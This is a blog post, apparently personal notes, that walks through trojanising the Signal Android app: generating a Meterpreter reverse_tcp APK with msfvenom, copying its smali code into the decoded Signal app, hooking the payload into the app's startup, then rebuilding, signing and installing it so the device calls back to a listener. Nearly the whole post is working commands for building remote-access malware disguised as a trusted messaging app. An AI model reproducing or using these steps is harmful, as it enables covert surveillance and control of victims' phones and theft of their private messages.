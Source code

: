 ```yaml
---
layout: post
title: Msfvenom Android APK
---
```


This post is just going to cover the unpackaging and recreating of official Android apps with Msfvenom payloads. I made this 
mainly as future notes for myself, but maybe this can help you too. Also, because the documentation that I was working from 
is now outdated.

Install the following apps:

	sudo apt install apktool apksigner adb zipalign keytool

Assuming you have msfvenom/metasploit installed, create the malicious APK:

	msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 R > meterpreter.apk

The options are pretty straightforward. The listener is TCP based versus the other HTTP or HTTPS options. And, the listener 
IP address to connect back is at 192.168.1.1 and the port is 4444. Once the APK is built, we can unpackage it.

	apktool decode -o meterpreter meterpreter.apk

	( -o <name> is the name of the folder where everything will be decoded to )
	( and, the apk is the target that will be decoded )

Do this for the meterpreter.apk as well as the official app that you want to repackage:

	apktool decode -o signal signal.apk

Copy the contents of the meterpreter smali folder to the official app:

	cp -r meterpreter/smali/com/metasploit signal/smali/com/.

	( this file structure is Android 11 specific )
	( against a Pixel 6 using arm64-v8a )

Next, we need to identify the beginning of the official APK. We need to find the <activity ... > that is used when the app 
is first launched. When comparing against Signal version 6.1.3, this should be the following file:

	nano signal/smali/org/thoughtcrime/securesms/ApplicationContext.smali

	( search for the following lines "onCreate()V" or "onCreate(Landroid...)V"

	( paste the following below ".line 131", as an example, verify for your own APK where to place )

	invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V

Build the app into an APK and zipalign it:

	apktool build signal/ --use-aapt2

	zipalign -f -p 4 signal/dist/<CREATED_APK>.apk signal/dist/<OUTPUT_ALIGNED_APK>.apk

	( where the created apk is the one we just built, and the output aligned apk is the aligned version )

Let's generate the key used after rebuilding the APK:

	keytool -genkey -V -keystore key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000

And, we can now sign the newly created and aligned APK:

	apksigner sign --ks key.keystore --ks-pass pass:password signal/dist/<OUTPUT_ALIGNED_APK>.apk

This should properly keep the APK aligned and now signed as well. The last thing to do is pair your Android device and 
authenticate the ADB connection. The app can then be pushed with the following command:

	adb install signal/dist/<OUTPUT_ALIGNED_APK>.apk

Start the metasploit listener on the host. Once it is ready, launch the app from the compromised device and it should 
connect immediately. If there are delays or issues getting the device to spawn a msf session, check your routing from the 
compromised device.
